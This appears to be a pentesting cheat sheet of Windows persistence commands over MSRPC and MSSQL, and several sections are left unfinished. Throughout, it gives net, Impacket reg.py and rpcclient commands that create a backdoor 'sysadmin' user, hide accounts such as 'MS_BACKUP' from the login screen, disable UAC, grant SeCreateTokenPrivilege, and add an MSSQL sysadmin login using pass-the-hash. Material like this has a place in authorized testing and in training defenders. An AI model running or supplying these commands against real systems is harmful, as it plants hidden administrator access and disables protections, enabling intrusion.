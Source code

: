 # Unix Shell

## 01 - MSRPC Port

### 1.1 - `net`

Create user

```
$ net <ads | rpc> user add "sysadmin" "s3cur3d+1T" [-F user flags] [-C comment] -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> user add "sysadmin" "s3cur3d+1T" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

Create group

```
$ net <ads | rpc> groupmember add <group_name> <remote_username> -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> groupmember add <group_name> <remote_username> -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 1.2 - Impacket

Makes the user account invisible from the Windows Login screen

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" -v sysadmin -vt REG_DWORD -vd 0
```

Persistence method to add user account

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -v MS_BACKUP -vt REG_DWORD -vd 0
```

Disabling UAC that allows the hacker to take full control

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 0

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 0
```

Enabling UAC to make the admin restrictive

```
$ reg.py [<domain>/]<username>:"<password>"@<IP> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 1

$ reg.py [<domain>/]<username>@<IP> -hashes :<nt_hash> add -keyName "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -v EnableLUA -vt REG_DWORD -vd 1
```

### 1.2 - `rpcclient`

Create domain user account

```
rpcclient $> createdomuser <username>

rpcclient $> setuserinfo2 <username> <level> <password>

rpcclient $> setuserinfo2 <username> 23 <password>

rpcclient $> setuserinfo2 <username> 24 <password>
```

Confirm the created user account exists.

```
rpcclient $> queryuser <username>
```

TODO: Fill this info

- LSA create account

```
rpcclient $> lsaenumsid

rpcclient $> lookupsids S-1-1-0
```

Lookup username accounts

```
rpcclient $> lookupnames <username>

rpcclient $> lsacreateaccount S-1-1-0
```

Lookup privileges

```
rpcclient $> enumprivs

rpcclient $> lsaaddpriv S-1-1-0 SeCreateTokenPrivilege

rpcclient $> lsaenumprivsaccount S-1-1-0
```

Delete then check

```
rpcclient $> lsadelpriv S-1-1-0 SeCreateTokenPrivilege

rpcclient $> lsaenumprivsaccount S-1-1-0
```

```
lsaaddacctrights S-1-5-21-3232368669-2512470540-2741904768-1103 SeCreateTokenPrivilege

lsaenumprivsaccount S-1-5-21-3232368669-2512470540-2741904768-1103

lsaremoveacctrights S-1-5-21-3232368669-2512470540-2741904768-1103 SeCreateTokenPrivilege

lsaenumprivsaccount S-1-5-21-3232368669-2512470540-2741904768-1103
```

## 02 - MSSQL Port

TODO: Fill this info

### 2.1 - SQSH

```
C:\> sqlcmd [-S <IP>] -E -Q

CREATE LOGIN <username> WITH PASSWORD = '<password>';
sp_addsrvrolemember '<username>', 'sysadmin';
go
```

### 2.2 - Impacket

```
$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>:<password>@<IP>

$ mssqlclient.py -port 1433 -windows-auth <domain>/<username>@<IP> -hashes :<nt_hash>
```

### 2.3 - NetExec

```
$ netexec mssql -u "<username>" -p "<password>" [-d <domain> | --local-auth]

$ netexec mssql -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

---
## References

### Microsoft

- [Microsoft Open Specification: USER_INFORMATION_CLASS](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/6b0dff90-5ac0-429a-93aa-150334adabf6?redirectedfrom=MSDN)

### Hacktricks

- [Hacktricks: Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server.html)